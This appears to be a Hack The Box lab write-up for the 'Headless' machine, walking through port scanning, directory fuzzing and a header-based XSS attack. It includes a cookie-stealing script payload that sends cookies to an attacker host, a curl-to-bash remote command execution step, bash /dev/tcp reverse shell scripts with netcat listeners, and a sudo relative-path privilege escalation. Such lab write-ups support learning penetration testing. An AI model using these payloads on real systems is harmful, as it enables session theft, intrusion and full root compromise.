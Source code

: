 # Machine Headless from [Hack The Box](https://www.hackthebox.com)

Target ip: 10.10.11.8

## 1) Reconnaissance
As always we start scanning the target with `nmap`
```
nmap -p- -sS -n -Pn -vvv --min-rate 7000 -oG open_ports 10.10.11.8
```
There are **two open ports** are: 22 (SSH) and 5000.

We can obtain more information on the services running on those ports using some scanning scripts from nmap with the following command
```
nmap -p22,5000 -sCV --min-rate 7000 -n -oN ports_details 10.10.11.8
```
`-sC:` to run default reconnaissance scripts \
`-sV:` to perform a version scan

We can see that TCP port 5000 is hosting a web server so from the browser we go to `http://10.10.11.8:5000/` and find out a button that redirects as to a "support page" containing a form.

<style>
.center-60 {
  display: block;
  margin-left: auto;
  margin-right: auto;
  width: 60%;
}
</style>

<img src="imgs/homepage.png" alt="Home page" width="50%" height="50%" class="center-60">

<img src="imgs/support.png" alt="Support page" width="80%" height="50%" class="center-60">

Before playing with the form in the support page it would be interesting to do some fuzzing hoping to find more endpoints.

```
gobuster dir -u http://10.10.11.8:5000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -x html,php,txt,py -q
```

# Gaining access to target machine

After playing a while with the form fields I wasn't able to obtain neither XSS nor SQL injections. So I decided to go back and look for any other endpoint gobuster may have found and the only other results was `/dashboard` with code 500, so since I can't access dashboard nor gain access with the fields from the form, I will try manipulating the request headers.

Following the first approach on [this blog](https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e) we can try to steal cookies which may help us to bypass the security of `/dashboard`.

So the idea is to add the following to some fields on the header request (using Burpsuite's repetear here)
```
<script>var i=new Image(); i.src="http://<MY-IP>/?cookie="+btoa(document.cookie);</script>
```
But before sending the requests we need to open a http server:\
`python3 -m http.server -m 80`

Once the requests go throw we receive, in the terminal running the python server, a cookie:
`aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=`\
It's base64 encoded so we decode it
```
echo "aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=" | base64 -d
#is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```
Turns out the cookie's name is `is_admin`, therefore it makes sense trying to use it to bypass `/dashboard` security.

To do so, instead of continue using Burpsuite I'm gonna use the browser directly. In my case I'm using Firefox but any web browser works the same. What we need to do before going to the desired endpoint is to manually add the obtained cookie to the request, for that we use the 'web developer tools' tab from the browser and add our cookie there.

![Cookie](imgs/cookie.png)

It worked! We bypassed the 500 code! But we are not inside target machine yet.

Now the panel does not contain too much info, just a button and a drop down list to pick dates. Whenever we see this kind of drop-down lists that forces us to some predefined inputs it's a good idea to intercept the requests with a proxy and manually modifies those. \
So once again we use Burpsuite and intercept the request that happens when we press the 'Generate Report' button.
![Dashboard-bypass](imgs/dashboard-bypass.png)


Modifying the date does not seem to be doing anything. BUT, the server is executing our commands, we achieved RCE!
How? This is an example payload:

![alt text](imgs/payload.png)

I'm using `curl` to read the content of a file from my machine and piping it to bash so the server executes it. The content of that `pwned.sh` is nothing else than a reverse shell
```
#!/bin/bash
bash -c "bash -i >& /dev/tcp/<MY-IP>/434 0>&1"
```
Before sending the request from Burpsuite's repeater we must start listening on the choosen port (434) and open a server to share the file
```
nc -nlvp 434
python -m http.server 443
```

After sending the request we receive a connection in the terminal running netcat.

## Retrieving user flag
We are already logged in as the user `dvir` so retrieving the user flag is easy
`cat /home/dvir/user.txt`

## Scalating privileges
Now the challenge is to obtain root access in order to retrieve the root flag.

As always my first approach is to run `sudo -l` to see if we have any special access.
It happens that the user `dvir` is able to run the script `/usr/bin/syscheck` with sudo levels.

![Dvir user](imgs/dvir-user.png)
![Serving pwned script](imgs/sharing-pwned.png)

![Scalating privilegs](imgs/scalating-priv.png)

Inspecting that script we realize it's running another script called `initdb.sh` using a relative path. So we just go ahead and create our own file with the same name, the content is would be -once again, a reverse shell. And since we are going to run it as sudo, the root user is the one that would be stablishing that connection.
```
# content of initdb.sh
#!/bin/bash
bash -c "bash -i >& /dev/tcp/<MY-IP>/434 0>&1"
```

From host machine we use netcat to listen on a port 
```
nc -nlvp 434
```

```
# we run the syscheck script as sudo
sudo /usr/bin/syscheck
```

On the terminal listening with netcat we received a connection! And the user is **root**.\
Now we get the remaining flag 

`cat /root/root.txt`


## Summary

We were able to compromise this machine because of the following vulnerabilities:

* Server on port 5000 ended up being vulnerable to XSS via request's headers.
* Cookie hijacking allowed us to bypass `/dashboard` security panel.
* Improper sanitization of payload request allowed an RCE.
* User dvir is able to run a vulnerable script as sudo.